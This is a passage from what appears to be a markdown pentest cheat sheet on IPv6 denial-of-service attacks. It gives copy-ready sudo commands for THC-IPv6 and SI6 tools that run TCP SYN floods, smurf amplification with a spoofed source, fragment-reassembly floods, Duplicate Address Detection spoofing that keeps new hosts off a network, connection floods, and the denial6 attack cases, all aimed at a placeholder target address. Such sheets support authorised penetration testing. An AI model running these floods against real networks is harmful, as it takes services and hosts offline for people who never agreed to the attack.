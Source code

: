 
#### TCP SYN
Flood the target with TCP-SYN packets. Destination port can be randomized if you supply "x" as port.<br />
`$ sudo ./thcsyn6 eth0 TARGETIPv6ADDR DSTPORT` # 'thcsyn6 -h' have interesting options <br />
`$ sudo ./tcp6 -i eth0 --src-address SRCIPv6ADDR --dst-address TARGETIPv6ADDR --dst-port DSTPORT --tcp-flags S --flood-sources 100 --loop --sleep 1 --verbose`


#### Smurf attack
Flood the target with network traffic amplification. Send ICMPv6 echo requests to 'FF02::1' with the spoofed source from the attack target.<br />
`$ sudo ./smurf6 eth0 TARGETIPv6ADDR`


#### Fragments management
Flood the reassembly table with imcomplete fragment packets. Only working with poor fragment reassembly queue management.<br />
`$ sudo ./frag6 -i eth0 --flood-frags 10000 --loop --dst-address TARGETIPv6ADDR --verbose`<br />
`$ sudo ./frag6 -i eth0 --flood-frags 100 --loop --src-address ::/0 --dst-address TARGETIPv6ADDR --verbose`



#### DAD (Duplicate Address Detection)
DAD is the mechanism of IPv6 stateless autoconfiguration to detect whether an IPv6 address exists on the network. Every time a new computer asks about IPv6 existence, the attacker replies and claims that he is that IPv6. The new computer cannot join the network since it does not have IPv6 address. It use ICMPv6 neighbor solicitation which sends to all nodes multicast address.<br />
`$ sudo ./na6 -i eth0 --accept-src ::/128 --solicited --override --listen --verbose`<br />
`$ sudo ./dos-new-ip6 eth0`


#### Buffer / Connections
A buffer/connections flood can be done by TCP-SYN with no controlling process and will make a lots of queue data for such connections.<br />
`$ sudo ./tcp6 -i eth0 --dst-address TARGETIPv6ADDR --dst-port 80 --listen --src-address TARGETIPv6ADDR/112 --flood-ports 10 --loop --rate-limit 100pps --data "GET / HTTP/1.0\r\n\r\n" --close-mode LAST-ACK`


#### Other denial of services
The tools 'denial6' allow to performs various denial of services attacks.<br />
`$ sudo ./denial6 eth0 TARGETIPv6ADDR CASENUMBER`<br />
Case number :<br />
1 : large hop-by-hop header with router-alert and filled with unknown options<br />
2 : large destination header filled with unknown options<br />
3 : hop-by-hop header with router alert option plus 180 headers<br />
4 : hop-by-hop header with router alert option plus 178 headers + ping<br />
5 : AH header + ping<br />
6 : first fragments of a ping with a hop-by-hop header with router alert<br />
7 : large hop-by-hop header filled with unknown options (no router alert)<br />


### Audit & Bypass
